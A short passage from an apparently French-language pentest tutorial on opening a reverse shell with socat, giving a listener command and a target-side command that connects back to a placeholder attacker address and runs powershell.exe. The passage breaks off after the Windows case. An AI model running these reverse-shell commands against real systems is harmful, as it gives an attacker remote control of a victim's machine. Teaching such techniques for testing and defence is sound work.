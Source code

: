 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection

Sur la machine cible, on va effectuer la commande :

1) Sur une machine windows

```shell
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```